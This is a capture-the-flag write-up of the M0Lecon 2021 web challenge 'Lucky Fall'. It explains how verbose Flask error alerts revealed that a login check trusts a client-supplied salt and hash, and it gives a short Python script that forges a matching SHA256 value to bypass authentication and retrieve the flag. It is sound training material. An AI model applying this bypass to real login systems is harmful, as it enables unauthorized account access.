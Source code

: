 ```yaml
---
layout: load_md
title: The White Circle | M0Lecon 2021 | Lucky Fall Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: M0Lecon 2021
parent: m0lecon_2021
category: web
challenge: Lucky Fall
tags: "web, twh"
---
```


<h1 class="heading card-title white-text">M0Lecon 2021</h1>

## Lucky Fall
> Solved By : thewhiteh4t

- we have a simple login page
- JSON body is sent to the server which contains username and password
- Unusual thing here is that the error is shown in a javascript alert

![](https://i.imgur.com/gDkpo4r.png)

- the page source looked normal so I proceeded to intercept the login request with burpsuite
- if we remove the `name` key value pair from JSON body we can see the following error :

![](https://i.imgur.com/bcDVpIS.png)

- this error reveals few things to us :
    - python flask backend is used
    - the exceptions are showed in the alert pop up
    - `name` key value pair are required

- after this I tried to remove the `password` key : 

![](https://i.imgur.com/SZeBtyH.png)

- here we can see an `if` condition which looks like the logic behind the login function
- It is calculating the SHA256 hash of concatenation of `password` and `salt`
- then it compares it with a `hash` value
- but if we take a look carefully we can see that the values of `salt` and `hash` are being taken from the JSON request body
- so we can set our own `salt` and `hash` just like `username` and `password`
- I wrote a small python script to get the flag
- here `username`, `password` and `salt` can be any values, we just need to satisfy the if condition to get the flag

```python
#!/usr/bin/env python3

import requests
import hashlib

url = 'http://lucky-fall.challs.m0lecon.it/'
uname = 'admin'
passw = 'password'
salt = 'salt'
Hash = hashlib.sha256((passw + salt).encode('UTF-8')).hexdigest()

json_body = {
    'name': uname,
    'password': passw,
    'salt': salt,
    'hash': Hash
}

r = requests.post(url + 'login', json=json_body)
print(r.text)
```

**OUTPUT :**

![](https://i.imgur.com/257p2bC.png)

